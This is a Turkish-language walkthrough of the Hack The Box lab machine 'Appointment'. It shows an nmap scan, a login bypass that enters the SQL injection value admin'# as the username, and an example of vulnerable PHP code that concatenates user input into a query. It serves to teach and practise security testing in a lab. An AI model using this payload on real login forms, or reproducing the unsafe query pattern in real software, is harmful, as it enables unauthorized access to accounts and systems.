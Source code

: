 ```yaml
---
glightbox: true
---
```


# Appointment

!!! info "Target IP Address"

    10.129.219.149

Hedef makine için Nmap taraması gerçekleştir:

```bash
nmap 10.129.219.149 -Pn -sV -p 80
```

```text title="Output" hl_lines="6"
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-21 23:27 +03
Nmap scan report for 10.129.219.149
Host is up.

PORT   STATE    SERVICE VERSION
80/tcp filtered http

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 3.43 seconds
```

Web tarayıcısında [http://10.129.219.149](http://10.129.219.149) adresine git. Giriş formunda kullanıcı adı kısmına `admin'#` ve parola kısmına boşluk olmayan herhangi bir karakter gir.

Kullanıcı adı kısmına girilen bu değer sayesinde yanlış parola ile dahi giriş yapılabilir. Çünkü kullanıcı girdisini doğru şekilde kontrol etmeyen bir PHP kodu aşağıdaki gibi gözükebilir:

```php title="example.php" linenums="1" hl_lines="1"
$sql="SELECT * FROM users WHERE username='$username' AND password='$password'";
$result=mysql_query($sql);
$count=mysql_num_rows($result);
if ($count==1){
    $_SESSION['username'] = $username;
    $_SESSION['password'] = $password;
    header("location:home.php");
}
```

Kullanıcı adı olarak `admin'#` değeri verildiğinde SQL satırı aşağıdaki gibi olur:

```php
$sql="SELECT * FROM users WHERE username='admin'# AND password='$password'";
```

Bu sorgu hatasız çalışacağından `$count` değişkenin değeri `1` olur ve giriş başarılı olur.
